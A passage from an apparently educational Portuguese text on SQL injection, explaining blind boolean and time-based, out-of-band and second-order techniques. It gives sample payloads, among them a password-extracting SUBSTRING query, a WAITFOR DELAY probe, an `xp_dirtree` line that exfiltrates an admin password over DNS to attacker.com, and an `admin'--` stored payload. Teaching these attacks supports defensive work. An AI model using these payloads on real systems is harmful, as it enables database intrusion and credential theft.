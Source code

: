 - **Baseada em Respostas Booleanas**: O atacante constrói consultas que fazem uma pergunta de "verdadeiro ou falso" ao banco de dados. A aplicação responderá de forma diferente dependendo da resposta. Por exemplo, uma consulta injetada pode ser `AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'`. Se a página carregar normalmente (resposta "verdadeira"), o atacante sabe que o primeiro caractere da senha do administrador é maior que `'m'`. Se a página apresentar um erro ou conteúdo diferente (resposta "falsa"), ele sabe que não é. Repetindo este processo, é possível extrair dados completos, caractere por caractere.
- **Baseada em Tempo**: Em situações em que nem mesmo a resposta da página muda, um atacante pode recorrer a atrasos de tempo condicionais. O *payload* injetado inclui uma função que instrui o banco de dados a pausar por um determinado período se uma condição for verdadeira. Por exemplo, em Microsoft SQL Server, o comando `IF (condition) WAITFOR DELAY '0:0:10'` fará com que a resposta HTTP atrase 10 segundos apenas se a condição for verdadeira. Ao medir o tempo de resposta, o atacante pode inferir a veracidade da condição, mesmo sem qualquer *feedback* visual.

#### 1.2.3. *Out-of-Band (OOB) SQLi*

Esta é a técnica mais avançada, utilizada quando as respostas do servidor são demasiado instáveis ou genéricas para permitir uma exploração cega fiável. Em vez de depender do canal de resposta HTTP, o atacante força o servidor de banco de dados a iniciar uma conexão de rede de saída para um sistema que ele controla.

- **Exfiltração de Dados via DNS**: Um método OOB comum envolve a exfiltração de dados através de consultas DNS. O atacante injeta um comando que faz com que o servidor de banco de dados execute uma pesquisa DNS para um domínio controlado por ele. Os dados a serem exfiltrados são concatenados como um subdomínio. Por exemplo, em MS-SQL, o procedimento `xp_dirtree` pode ser usado para solicitar um caminho UNC: `exec master..xp_dirtree '\\(SELECT password FROM users WHERE username='admin').attacker.com\a'`. O servidor de banco de dados tentará resolver este caminho, enviando uma consulta DNS para `[senha_roubada].attacker.com`. O atacante, ao monitorizar os *logs* do seu servidor DNS, pode capturar a senha diretamente, contornando completamente o canal de resposta da aplicação *web*.

#### 1.2.4. Injeção de SQL de Segunda Ordem (*Stored SQLi*)

A Injeção de SQL de Segunda Ordem é uma forma particularmente insidiosa de ataque porque explora uma falha fundamental na modelagem de ameaças: a confiança excessiva em dados que já residem dentro do perímetro de segurança da aplicação, como o próprio banco de dados. O ataque ocorre em duas fases distintas:

- **Armazenamento do *Payload***: O atacante submete uma entrada maliciosa que é processada de forma segura pela aplicação e armazenada no banco de dados. Nesta fase, a entrada parece inofensiva e muitas vezes passa por validações e mecanismos de *escape*, pois a consulta de inserção é tipicamente parametrizada. Por exemplo, um nome de usuário como `admin'--` é armazenado como uma *string* literal no banco de dados.
- **Execução em Contexto Inseguro**: Numa fase posterior, outra funcionalidade da aplicação recupera este dado "confiável" do banco de dados e utiliza-o para construir uma nova consulta SQL dinâmica, mas desta vez de forma insegura (sem parametrização). Por exemplo, uma funcionalidade de "alterar senha" pode construir a consulta: `UPDATE users SET password = 'new_password' WHERE username = ' + stored_username + '`. Quando o `stored_username` `admin'--` é inserido, a consulta torna-se `UPDATE users SET password = 'new_password' WHERE username = 'admin'--'`, alterando a senha do administrador em vez da do atacante.

Esta vulnerabilidade é difícil de detetar com *scanners* automatizados porque a injeção e a execução estão separadas no tempo e no fluxo de trabalho da aplicação. A causa raiz é a violação do princípio de "confiança zero" dentro da própria aplicação; os dados devem ser tratados como não confiáveis sempre que são usados para construir comandos, independentemente da sua origem.

